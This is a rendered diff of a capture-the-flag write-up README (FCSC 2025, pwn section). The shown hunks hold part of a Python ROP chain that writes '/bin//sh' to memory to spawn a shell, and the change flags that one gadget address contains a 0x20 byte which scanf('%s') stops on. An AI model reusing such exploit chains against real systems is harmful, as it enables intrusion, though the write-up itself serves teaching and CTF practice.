

Before and after one commit to souhailsadat/FCSC-2025-writeups, a Markdown page: pwn/README.md, the part around one of its changes. Drawn GitHub-style.

````diff
--- a/pwn/README.md
+++ b/pwn/README.md
@@ -104,7 +102,7 @@ p += b'/bin//sh'
 p += pack('<Q', 0x0000000000445371) # mov qword ptr [rsi], rax ; ret
 p += pack('<Q', 0x000000000040f972) # pop rsi ; ret
 p += pack('<Q', 0x00000000004c40e8) # @ .data + 8
-p += pack('<Q', 0x0000000000434a**20**) # xor rax, rax ; ret
+p += pack('<Q', 0x0000000000434a20) # xor rax, rax ; ret                <---- presence of the 0x20 byte
 p += pack('<Q', 0x0000000000445371) # mov qword ptr [rsi], rax ; ret
 p += pack('<Q', 0x0000000000401f60) # pop rdi ; ret
 p += pack('<Q', 0x00000000004c40e0) # @ .data
@@ -113,7 +111,7 @@ p += pack('<Q', 0x00000000004c40e8) # @ .data + 8
 p += pack('<Q', 0x00000000004867a7) # pop rdx ; pop rbx ; ret
 p += pack('<Q', 0x00000000004c40e8) # @ .data + 8
 p += pack('<Q', 0x4141414141414141) # padding
-p += pack('<Q', 0x0000000000434a**20**) # xor rax, rax ; ret
+p += pack('<Q', 0x0000000000434a20) # xor rax, rax ; ret                <---- presence of the 0x20 byte
 ```
 
 Since `scanf("%s")` stops reading at **space**, **\n**, or **\t**, everything after that was ignored. This gadget is used twice. We confirmed the issue by printing the content of the payload.
````
Also changed, not shown: other parts of pwn/README.md (+2 -4 lines).
